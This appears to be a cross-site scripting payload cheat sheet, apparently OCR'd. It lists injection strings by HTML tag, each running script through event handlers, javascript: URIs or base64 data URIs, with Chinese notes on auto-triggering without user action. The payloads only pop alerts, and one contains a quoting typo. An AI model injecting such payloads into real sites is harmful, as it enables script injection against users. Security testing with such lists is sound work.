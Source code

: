 `<from>`

```php+HTML
<form action=javascript:alert('xss') method="get">
<form action=javascript:alert('xss')>
<form method=post action=aa.asp? onmouseover=prompt('xss')>
<form method=post action=aa.asp? onmouseover=alert('xss')>
<form action=1 onmouseover=alert('xss)>
<form method=post action="data:text/html;base64,<script>alert('xss')</script>">
<form method=post action="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

`<iframe>`

```php+HTML
<iframe onload=alert("xss");></iframe>
<iframe src=javascript:alert('xss')></iframe>
<iframe src="data:text/html,&lt;script&gt;alert('xss')&lt;/script&gt;"></iframe>
<iframe src="data:text/html;base64,<script>alert('xss')</script>">
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
<iframe src="aaa" onmouseover=alert('xss') /><iframe>
<iframe src="javascript&colon;prompt&lpar;``xss``&rpar;"></iframe>(````只有两个``)
```

`<svg>`

```php+HTML
<svg onload=alert(1)>
```

`<body>`

```php+HTML
<body onload="alert(1)">
利用换行符以及autofocus，自动去触发onscroll事件，无需用户去触发
<body onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
```

`<button>`

```php+HTML
元素上点击鼠标时触发
<button onclick="alert(1)">text</button>
```

`<p>`

```php+HTML
元素上按下鼠标时触发
<p onmousedown="alert(1)">text</p>
元素上释放鼠标时触发
<p onmouseup="alert(1)">text</p>
```

`<details>`

```php+HTML
<details ontoggle="alert('xss');">
使用open属性触发ontoggle事件，无需用户去触发
<details open ontoggle="alert('xss');">
```
